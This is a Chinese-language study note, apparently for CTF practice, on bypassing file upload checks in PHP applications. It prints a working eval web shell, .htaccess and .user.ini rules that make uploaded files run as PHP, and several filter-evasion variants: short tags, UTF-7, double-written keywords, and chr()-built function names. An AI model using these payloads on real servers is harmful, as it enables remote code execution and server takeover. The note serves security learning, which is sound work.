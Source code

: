 ```yaml
---

title: 第九周学习笔记--文件上传漏洞
date: 2020-09-14 17:43:57
categories: 笔记
description: 文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。常见场景是web服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。

---
```

# 第九周学习笔记

## 文件上传漏洞

- 文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。


- 常见场景是web服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。


```
<?php
@eval($_POST['cmd']);
```

### .htaccess任意文件解析

- 当服务器规定我们上传文件的格式时，我们可以通过.htaccess文件重新配置当前文件的解析后缀为其他后缀绕过导致其他后缀的文件被解析为php。导致远程代码执行。


- .htaccess文件配置信息,这里将后缀为.aaa的文件均解析为php文件


```
AddType application/x-httpd-php .aaa
```

- 后缀.aaa可以更改


- 然后通过CAT函数找出flag


### 短标签绕过

- JS风格

```php
<script language="php">phpinfo();</script>
```

- 短标签风格

```php
<?=phpinfo();?>
```

- `<?=?>`与`<?php echo ....?>`等效
- ASP风格

```php
<% phpinfo();%>
```

- 官方默认风格

```php
<?php phpinfo(); ?>
```

- 假设`<?php` 被被过滤，我们可以使用别的风格短标签，进行绕过。

### 特殊编码绕过(UTF-7)

- 服务器过滤了所有标签形式、或过滤了`<?`而且PHP是在PHP7以上版本（PHP7已经将其他标签形式过淘汰）


- 所以可以使用`htaccess`解码对应的文件，则可以使用UTF-7进行解码


- 可以通过这个网站进行编码和解码UTF-7


```
http://toolswebtop.com/text/process/encode/utf-7
```

- .htaccess（.aaa可以更改）


```
AddType application/x-httpd-php .aaa
php_flag display_errors on
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

- 1.aaa（.aaa可以更改）

```
+ADw?php +AEA-eval(+ACQAXw-POST+AFs'cmd'+AF0)+ADs?+AD4-
```

- 然后通过cmd=进行获取flag


### 双写绕过

- 如果服务器上对php，POST，eval进行替换，替换为空，就可以通过双写绕过


```
<?pphphp
@eevalval($_PPOSTOST['cmd']);
```

### .user.ini绕过

- 如果我们上传文件的目录里含有.php文件，我们先上传含有我们代码的文件，然后上传.user.ini，就可以把目录下的PHP文件进行远程执行


- .user.ini（a.jpg可以更改）


```
auto_prepend_file=a.jpg
```

### .htaccess文件换行绕过

- 上传.htaccess文件时候发现文件内容被过滤。可以使用  \换行  绕过的方法绕过过滤。


### 文件包含解码Base64

- 如果服务器对我们进行base64加密，我们可以通过解码方式进行绕过


- .htaccess

```
AddType application/x-httpd-php .aaa
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.aaa"
```

### 动态拼接函数绕过函数过滤

- 当服务器对危险函数进行过滤了，我们可以通过aiisc码进行动态构造函数来绕过，从而执行函数


```
<?php
$a = chr(112).chr(104).chr(112).chr(105).chr(110).chr(102).chr(111);
$a('cat /flag');
?>
```

- 先上传1.php，实验，看能否正常上传

![](C:\Users\captain\Desktop\笔记\批注 2020-08-12 224006.png)

- 上传jpg格式，同时使用动态拼接

![](C:\Users\captain\Desktop\笔记\批注 2020-08-12 224042.png)

- 然后上传.htaccess



![](C:\Users\captain\Desktop\笔记\批注 2020-08-12 224059.png)

- 最后，使用函数cat进行获取flag

![](C:\Users\captain\Desktop\笔记\批注 2020-08-12 224117.png)

- 快速生成指定函数（phpinfo函数可以更改）

```
 <?php
 $a = "phpinfo";
 for($i=0;$i<strlen($a);$i++){
 	echo "chr(".ord($a[$i]).").";
 }
 ?>
```

### 图片头绕过

- （在编码前加入即可）


### XMB文件头绕过

```
#define test_width 16
#define test_height 7
```

### GIF89a

```
GIF89a
```

